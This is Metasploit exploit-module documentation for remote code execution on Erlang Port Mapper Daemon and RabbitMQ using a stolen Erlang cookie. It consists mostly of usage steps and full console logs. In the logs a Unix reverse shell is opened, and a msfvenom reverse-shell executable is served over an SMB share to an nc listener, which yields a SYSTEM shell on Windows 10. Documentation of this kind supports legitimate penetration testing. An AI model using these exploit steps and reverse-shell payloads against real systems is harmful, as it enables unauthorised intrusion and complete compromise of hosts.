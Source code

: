 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/unix/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Select appropriate payload (default=cmd/unix/reverse)
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (varies per OS)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  MOLKLGXHWQLTGUREBDKI  yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting              Required  Description
   ----  ---------------              --------  -----------
   CMD   \\W.X.Y.Z\BOB\t.exe  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[*] A.B.C.D:25672 - Challenge sent, sending payload
[*] Exploit completed, but no session was created.

--- Impacket SMB Server ---
root@kali:/tmp# msfvenom -p windows/x64/shell_reverse_tcp LHOST=W.X.Y.Z LPORT=3 -f exe -o t.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                 
[-] No arch selected, selecting arch: x64 from the payload                                             
No encoder or badchars specified, outputting raw payload                                               
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: t.exe
root@kali:/tmp# impacket-smbserver BOB .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                      

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                 
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (A.B.C.D,50349)
[*] AUTHENTICATE_MESSAGE (\,DESKTOP-85258BS)
[*] User \DESKTOP-85258BS authenticated successfully                                                   
[*] :::00::4141414141414141

--- Handler ---

root@kali:~# nc -lvp 3
Listening on [0.0.0.0] (family 0, port 3)
Connection from A.B.C.D 50350 received!
Microsoft Windows [Version 10.0.17134.407]
(c) 2018 Microsoft Corporation. All rights reserved.                                                   

C:\Users\667563~1\AppData\Roaming\RabbitMQ>whoami
whoami
nt authority\system

C:\Users\667563~1\AppData\Roaming\RabbitMQ>
```
